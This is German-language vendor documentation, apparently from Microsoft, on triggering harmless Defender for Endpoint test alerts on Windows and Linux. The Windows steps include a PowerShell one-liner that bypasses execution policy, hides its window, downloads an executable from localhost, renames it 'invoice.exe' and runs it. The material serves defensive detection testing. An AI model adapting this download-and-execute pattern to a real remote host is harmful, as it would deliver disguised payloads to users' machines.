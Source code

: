 

## <a name="send-a-test-alert"></a>Senden einer Testwarnung

Wenn von Defender für Endpunkt eine harmlose Testwarnung generiert werden soll, wählen Sie die Registerkarte für das jeweilige Betriebssystem Ihres Endpunkts aus:

### <a name="windows"></a>[**Windows**](#tab/windows)

Für Endpunkte unter Windows:

1. Erstellen Sie einen Ordner „C:\test-MDATP-test“.
1. Verwenden Sie Remotedesktop, um auf Ihren Computer zuzugreifen.
1. Öffnen Sie ein Befehlszeilenfenster.
1. Kopieren Sie an der Eingabeaufforderung den folgenden Befehl, und führen Sie ihn aus. Das Eingabeaufforderungsfenster wird automatisch geschlossen.

    ```powershell
    powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe'); Start-Process 'C:\\test-MDATP-test\\invoice.exe'
    ```
    :::image type="content" source="./media/integration-defender-for-endpoint/generate-edr-alert.png" alt-text="Ein Eingabeaufforderungsfenster mit dem Befehl zum Generieren einer Testwarnung":::

    Wenn der Befehl erfolgreich ist, wird Ihnen eine neue Warnung auf dem Dashboard des Azure Security Centers und im Portal von Microsoft Defender für den Endpunkt angezeigt. Die Anzeige dieser Warnung kann einige Minuten dauern.
1. Um die Warnung im Security Center zu überprüfen, navigieren Sie zu **Sicherheitswarnungen** > **Verdächtige PowerShell-Befehlszeile**.
1. Wählen Sie im Untersuchungsfenster den Link aus, um zum Portal von Microsoft Defender für den Endpunkt zu navigieren.

    > [!TIP]
    > Die Warnung wird mit dem Schweregrad **Info** ausgelöst.


### <a name="linux"></a>[**Linux**](#tab/linux)

Für Endpunkte unter Linux:

1. Laden Sie unter https://aka.ms/LinuxDIY das Tool für Testwarnungen herunter.
1. Extrahieren Sie den Inhalt der ZIP-Datei, und führen Sie das folgende Shell-Skript aus:

    `./mde_linux_edr_diy`

    Wenn der Befehl erfolgreich ist, wird Ihnen eine neue Warnung auf dem Dashboard des Azure Security Centers und im Portal von Microsoft Defender für den Endpunkt angezeigt. Die Anzeige dieser Warnung kann einige Minuten dauern.

1. Wenn Sie die Warnung im Security Center überprüfen möchten, navigieren Sie zu **Sicherheitswarnungen** > **Auflistung von Dateien mit vertraulichen Daten** (Enumeration of files with sensitive data).
1. Wählen Sie im Untersuchungsfenster den Link aus, um zum Portal von Microsoft Defender für den Endpunkt zu navigieren.
